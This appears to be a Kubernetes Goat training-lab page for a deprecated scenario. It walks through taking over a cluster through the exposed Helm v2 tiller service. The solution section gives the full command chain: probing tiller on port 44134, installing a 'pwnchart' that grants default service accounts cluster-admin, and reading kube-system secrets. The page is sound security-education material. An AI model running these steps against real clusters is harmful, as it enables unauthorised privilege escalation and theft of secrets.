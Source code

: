 ```yaml
---
title: ⎈ Helm v2 tiller to PwN the cluster - [Deprecated]
sidebar_label: Welcome
sidebar_position: 2
description: Cluster Takeover using Helm v2 tiller misconfiguration in Kubernetes Cluster - Kubernetes Goat Scenario 🚀
slug: helm-v2-tiller-to-pwn-kubernetes-cluster-takeover/welcome
---
```


# ⎈ Helm v2 tiller to PwN the cluster - [Deprecated]

:::warning

This scenario has been deprecated from the Kubernetes Goat and read-only documentation is available to learn 😊

:::

## 🙌 Overview

This is one of the early days of Kubernetes package manager configuration mistakes. Helm is a package manager for Kubernetes to deploy and manage applications, the default configuration and setup is insecure that if an attacker has access to any one of the pod and there were no network security policies (NSP) the attacker can gain complete cluster access and take over the cluster-admin privileges.

![](../images/scenario-diagram-wip.png)

By the end of the scenario, we will understand and learn the following

1. You will learn to work with Kubernetes services and helm package manager
2. Understand how to deploy helm charts into the Kubernetes cluster and manage them
3. Exploit the misconfigurations and take over the complete Kubernetes cluster access

### ⚡️ The story

Helm is a package manager for Kubernetes. It's like `apt-get` for ubuntu. In this scenario, we will see the older version of helm (version 2), tiller service RBAC default setup to gain access to the completed cluster.

:::info

- To get started with the scenario, run the following command

```bash
kubectl run --rm --restart=Never -it --image=madhuakula/k8s-goat-helm-tiller -- bash
```
:::

![Scenario 9 welcome](../images/sc-9-1.png)

### 🎯 Goal

:::tip

To successfully complete this scenario, you need to gain cluster-admin privileges of the Kubernetes Cluster and be able to get the secrets of the `kube-system` namespace from the pod you are inside.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Still figuring the helm tiller service? </b></summary>
  <div>
    <div>Always read the docs, look for the default tiller port and service name 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ I found tiller, but how can I gain cluster-admin access? </b></summary>
  <div>
    <div>Refer to the pwn-chart in your container, it has pre-built helm chart to gain full cluster-admin access to the current pod you are working on 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method

:::info

By default helm version 2 has a tiller component, which has full cluster administration RBAC privileges 🔥

:::
  
- So the default installation of the tiller is in the `kube-system` namespace with service name `tiller-deploy` and port `44134`. Which expose to `0.0.0.0` address, we can verify by running a simple telnet command

```bash
telnet tiller-deploy.kube-system 44134
```

![Scenario 9 telnet](../images/sc-9-2.png)

- Now, we are able to connect to the tiller service port. We can use the helm binary to perform operations and talk to the tiller service

```bash
helm --host tiller-deploy.kube-system:44134 version
```

![Scenario 9 telnet](../images/sc-9-3.png)

- Let's try if we can get Kubernetes secrets from the cluster from the `kube-system` namespace before we deploy the `pwn-chart`

```bash
kubectl get secrets -n kube-system
```

![Scenario 9 before secrets](../images/sc-9-4.png)

- As you can see we can't get access to the `kube-system` namespace secrets by default. Now we can create our own helm chart to give permissions to `default` ServiceAccount with full cluster-admin access. By default the current pod deployed in the `default` namespace which has the `default` ServiceAccount, so we end up getting the full cluster-admin privileges in the current pod only 🥳

```bash
helm --host tiller-deploy.kube-system:44134 install --name pwnchart /pwnchart
```

![Scenario 9 deploy chart](../images/sc-9-5.png)

- Now the `pwnchart` has been deployed with the help of helm and tiller service, it will give all the default service accounts cluster-admin access. Hence let's try getting the `kube-system` namespace secrets again

```bash
kubectl get secrets -n kube-system
```

![Scenario 9 deploy chart](../images/sc-9-6.png)

:::info

This scenario varies how the tiller deployment has been performed, sometimes admins deploy the tiller to a specific namespace with a specific privilege. Also from Helm version 3, there is no tiller service to mitigate such vulnerabilities
:::

- Hooray 🥳 , this is one heck of a default misconfiguration to gain complete cluster take over

## 🔖 References

- [Exploring the Security of Helm](https://docs.bitnami.com/tutorials/exploring-helm-security)
